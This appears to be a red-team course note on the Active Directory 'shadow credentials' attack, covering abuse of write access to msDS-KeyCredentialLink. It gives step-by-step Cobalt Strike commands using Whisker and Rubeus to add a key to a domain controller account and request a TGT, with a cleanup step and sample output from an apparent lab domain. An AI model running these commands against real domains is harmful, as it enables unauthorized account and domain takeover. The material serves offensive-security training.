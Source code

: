 
The basis of the "shadow credentials" attack is that if you can write to the attribute "msDS-KeyCredentialLink" (see [[Key Trust Model]]) on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with [[Resource Based Constrained Delegation RBCD]].

Further info: [blog post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) 
Tool to exploit: [Whisker](https://github.com/eladshamir/Whisker)  


## 🖊️ via Cobalt Strike

1) First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.

`beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$`

2) Add a new key pair to the target.

`beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$`

3) And now, we can ask for a TGT using the Rubeus command that Whisker provides.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap`



 ⚠ Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.
 
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
    DeviceID: 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403 | Creation Time: 1/21/2023 7:19:04 PM

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
```




### Properties
---
📆 created   {{19-02-2024}} 14:13
🏷️ tags: #redteam #crto 

---

